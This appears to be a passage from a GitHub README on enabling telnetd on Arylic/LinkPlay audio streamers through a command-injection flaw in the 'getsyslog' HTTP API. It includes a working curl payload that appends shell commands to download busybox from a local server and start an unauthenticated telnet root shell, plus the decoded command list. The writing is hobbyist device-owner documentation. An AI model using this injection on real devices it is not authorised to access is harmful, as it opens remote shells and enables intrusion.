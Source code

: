 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. 
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/bin/busybox+-q;chmod+555+/tmp/bin/busybox;ln+-s/tmp/bin/busybox+/tmp/bin/telnetd;/tmp/bin/telnetd+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/a31/bin/busybox -q;
chmod 555 /tmp/bin/busybox;
ln -s /tmp/bin/busybox /tmp/bin/telnetd;
/tmp/bin/telnetd telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+". 

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here, but there is an OpenWRT archive where you can get precompiled binaries for almost all utilities you may need. See section **_Hardware and Firmware_** for more information. On my web server (10.1.1.22) I've created subdirectory ***/a31/bin*** and have copied the busybox binary to that directory
